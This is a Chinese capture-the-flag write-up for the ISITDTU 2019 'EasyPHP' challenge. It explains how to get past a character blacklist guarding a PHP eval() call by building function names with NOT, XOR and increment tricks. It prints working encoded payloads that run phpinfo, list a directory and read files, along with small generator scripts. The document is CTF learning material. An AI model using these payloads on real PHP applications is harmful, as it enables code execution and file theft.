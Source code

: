 # \[ISITDTU 2019]EasyPHP

## \[ISITDTU 2019]EasyPHP

## 考点

* 无字符代码执行

## wp

```php
<?php
highlight_file(__FILE__);

$_ = @$_GET['_'];
if ( preg_match('/[\x00- 0-9\'"`$&.,|[{_defgops\x7F]+/i', $_) )
    die('rosé will not do it');

if ( strlen(count_chars(strtolower($_), 0x3)) > 0xd )
    die('you are so close, omg');

eval($_);
?>
```

代码执行，最后一个if不允许使用的字符超过12个

然后输入黑名单如下

```
ASCII值0-32
数字0-9 ASCII是48-57
'"`$&.,|[{_defgops ASCII对应39,34,96,36,38,46,44,124,91,123,95,100,101,102,103,111,112,115
```

到这里想到的绕过方式是异或和取反，然后在返回头看一下PHP版本是7.3，那就可以用函数执行的特性结合取反

phpinfo取反为%8F%97%8F%96%91%99%90，PHP7函数执行`(~%8F%97%8F%96%91%99%90)();`，长度为10

看到disable\_functions

![](<../.gitbook/assets/image (1).png>)

但是有字符使用的限制，所以还是要考虑其他方式。以前p牛说过无字符getshell可以用自增、位运算和取反，再偷一波陆队的思路。

现在可以考虑一下自增。PHP在获取HTTP参数时默认是字符串，然后可以用`!`进行布尔类型转换，再用`@`忽略notice输出，就可以把`!!@a`转化为数字1，然后再用`chr()`转换拼接就可以构造任意函数，但是需要用`.`拼接

```
// phpinfo();
(chr((!!@a%2b!!@a%2b!!@a)**(!!@a%2b!!@a%2b!!@a)*(!!@a%2b!!@a%2b!!@a%2b!!@a)%2b(!!@a%2b!!@a%2b!!@a%2b!!@a)).chr((!!@a%2b!!@a%2b!!@a)**(!!@a%2b!!@a%2b!!@a)*(!!@a%2b!!@a%2b!!@a%2b!!@a)-(!!@a%2b!!@a%2b!!@a%2b!!@a)).chr((!!@a%2b!!@a%2b!!@a)**(!!@a%2b!!@a%2b!!@a)*(!!@a%2b!!@a%2b!!@a%2b!!@a)%2b(!!@a%2b!!@a%2b!!@a%2b!!@a)).chr((!!@a%2b!!@a%2b!!@a)**(!!@a%2b!!@a%2b!!@a)*(!!@a%2b!!@a%2b!!@a%2b!!@a)-(!!@a%2b!!@a%2b!!@a)).chr((!!@a%2b!!@a%2b!!@a)**(!!@a%2b!!@a%2b!!@a)*(!!@a%2b!!@a%2b!!@a%2b!!@a)%2b(!!@a%2b!!@a)).chr((!!@a%2b!!@a%2b!!@a)**(!!@a%2b!!@a%2b!!@a)*(!!@a%2b!!@a%2b!!@a%2b!!@a)-(!!@a%2b!!@a%2b!!@a%2b!!@a%2b!!@a%2b!!@a)).chr((!!@a%2b!!@a%2b!!@a)**(!!@a%2b!!@a%2b!!@a)*(!!@a%2b!!@a%2b!!@a%2b!!@a)%2b(!!@a%2b!!@a%2b!!@a)))();
```

使用异或，如果用爆破的方法就会很慢，偷一波陆队的思路。先确定自己想执行的语句，比如phpinfo，然后定一个参考字符串，让phpinfo和它异或，就可以得到想要的输入，如果得到的结果不符合要求，再微调参考字符串

```
p:%8f^%ff
h:%97^%ff
i:%96^%ff
n:%91^%ff
f:%99^%ff
o:%90^%ff
```

结果是`%8f%97%8f%96%91%99%90^%ff%ff%ff%ff%ff%ff%ff`，脚本如下：

```php
target = "phpinfo"
standard = 0xff

dicts = {}
for i in target:
    dicts[i] = hex(ord(i)^standard).replace('0x','%')

res = ''
for i in target:
    res = res+dicts[i]
print(res+'^'+"%ff"*len(target))
print(len(set(res+'^'+"%ff"*len(target))))
```

但是这里有个疑问，`%21^%4f`的结果是`n`，但是在测试的时候却不对

![](<../.gitbook/assets/image (18) (1) (1).png>)

加上引号就可以了

![](<../.gitbook/assets/image (31) (1).png>)

用数字也是同样的道理，一开始一直报错，但是把数字用`trim`转换一下就可以了。然后用自增找到数字

![](<../.gitbook/assets/image (14) (1) (1) (1).png>)

```
p:A^1
h:Y^1
i:X^1
n:Z^4
f:W^1
o:Z^5
```

结果是`AYAXZWZ^1111415`

```
(trim((!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a)*((!!%40a%2b!!%40a)**(!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a)%2b(!!%40a%2b!!%40a)**(!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a)%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a)*((!!%40a%2b!!%40a)**(!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a)%2b(!!%40a%2b!!%40a)**(!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a)-(!!%40a%2b!!%40a)**(!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a)-!!%40a-!!%40a-!!%40a))%5e%40AYAXZWZ)();
```

这里如果要求字符种类最少，可以考虑使用%ff的方式，先生成语句，再去尝试找可以替换的字符。如下，共用了16个字符

```
print_r(scandir('.'))
(%8f%8d%96%91%8b%a0%8d^%ff%ff%ff%ff%ff%ff%ff)((%8c%9c%9e%91%9b%96%8d^%ff%ff%ff%ff%ff%ff%ff)((%d1^%ff)));
```

所以要找到可以替换的，即在内部可以互相异或出来的，目标代码用到的字符为`['n', 'p', 'c', 's', 'i', 'a', 't', 'd', 'r', '_', '.']`，写个脚本找一下

```python
s=['n', 'p', 'c', 's', 'i', 'a', 't',  'd', 'r', '_', '.']
for i in s:
    for j in s:
        for k in s:
            if (chr(ord(i)^ord(j)^ord(k)) in s):
                xorRes = i+'^'+j+'^'+k
                if len(set(xorRes)) == 4:
                    print(chr(ord(i)^ord(j)^ord(k))+'='+xorRes)
```

得到的结果对应如下

```
p %8f^%ff
r %8d^%ff
i %96^%ff    %9c^%ff^%9b^%91
n %91^%ff 
t %8b^%ff
_ %a0^%ff
s %8c^%ff    %9c^%ff^%9b^%8b
c %9c^%ff
a %9e^%ff    %8d^%ff^%9c^%8f
d %9b^%ff
. %d0^%ff
```

找一下就可以找到，原则先找必须存在的字符，比如`.`和`_`，那么`a,d,0`也必须存在，那么r就必须存在，同样的，对于字符c和d，在生成的URL编码中也有，所以c和d也必须存在，如果换掉，相当于没有做异或，对于n和i而言，哪个都可以，后续不牵扯到6和1，然后看t和s，他们也是哪个都可以，他们URL编码中的b和c都已经存在，最后是a和p，明显a含有的字符更多，要保留p

```
a=r^c^p
s=c^d^t 
i=c^d^n 
```

最后结果

```
p %8f^%ff
r %8d^%ff
i %9c^%ff^%9b^%91
n %91^%ff 
t %8b^%ff
_ %a0^%ff
s %9c^%ff^%9b^%8b
c %9c^%ff
a %8d^%ff^%9c^%8f
d %9b^%ff
. %d1^%ff
```

`print_r(scandir('.'))`

```
(%8f%8d%9c%91%8b%a0%8d^%ff%ff%ff%ff%ff%ff%ff^%ff%ff%9b%ff%ff%ff%ff^%ff%ff%91%ff%ff%ff%ff)((%9c%9c%8d%91%9b%9c%8d^%ff%ff%ff%ff%ff%ff%ff^%9b%ff%9c%ff%ff%9b%ff^%8b%ff%8f%ff%ff%91%ff)((%d1^%ff)));
```

![](<../.gitbook/assets/image (13).png>)

`readfile(end(scandir('.')))`

```
((%8D%9A%9E%9B%99%96%93%9A)^(%FF%FF%FF%FF%FF%FF%FF%FF))(((%9A%9E%9B)^(%FF%99%FF)^(%FF%96%FF)^(%FF%FF%FF))(((%8D%9E%9E%9E%9B%96%8D)^(%9A%9B%FF%99%FF%FF%FF)^(%9B%99%FF%96%FF%FF%FF)^(%FF%FF%FF%FF%FF%FF%FF))(%D1^%FF)));
```

## 小结

1. [一些不包含数字和字母的webshell](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html)
2. [无字母数字webshell之提高篇](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html)

